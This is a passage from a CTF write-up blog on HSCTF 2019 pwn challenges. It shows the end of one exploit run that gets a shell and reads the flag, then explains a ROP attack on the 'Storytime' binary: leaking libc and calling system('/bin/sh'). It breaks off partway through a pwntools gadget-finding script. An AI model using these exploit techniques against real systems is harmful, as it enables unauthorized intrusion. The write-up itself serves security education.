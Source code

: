 ```python

sh.sendlineafter(': ', payload)

sh.interactive()
```

```
$ python main.py
[+] Opening connection to pwn.hsctf.com on port 3131: Done
[*] Switching to interactive mode
$ cat flag
hsctf{wheeeeeee_that_was_fun}
```

flag: `hsctf{wheeeeeee_that_was_fun}`

# Storytime

## Problem

Written by: Tux

I want a story!!!

`nc pwn.hsctf.com 3333`

[storytime](/blog/2019-06-08-hsctf-writeup/Storytime/storytime)

## Solution

Typical ROP challenge. Have to first leak libc base address and then call `system` with `/bin/sh` to get shell. Can determine the libc version using [this](https://libc.blukat.me/?q=write%3A2b0&l=libc6_2.23-0ubuntu11_amd64) from leaking the GOT entries.

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './storytime'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

if context.bits == 64:
  r = process(['ROPgadget', '--binary', BINARY])
  gadgets = r.recvall().strip().split('\n')[2:-2]
  gadgets = map(lambda x: x.split(' : '),gadgets)
  gadgets = map(lambda x: (int(x[0],16),x[1]),gadgets)
  r.close()

  pop_rdi = 0
  pop_rsi_r15 = 0
  pop_rdx = 0

  for addr, name in gadgets:
    if 'pop rdi ; ret' in name:
      pop_rdi = addr
    if 'pop rsi ; pop r15 ; ret' in name:
      pop_rsi_r15 = addr
    if 'pop rdx ; ret' in name:
      pop_rdx = addr

```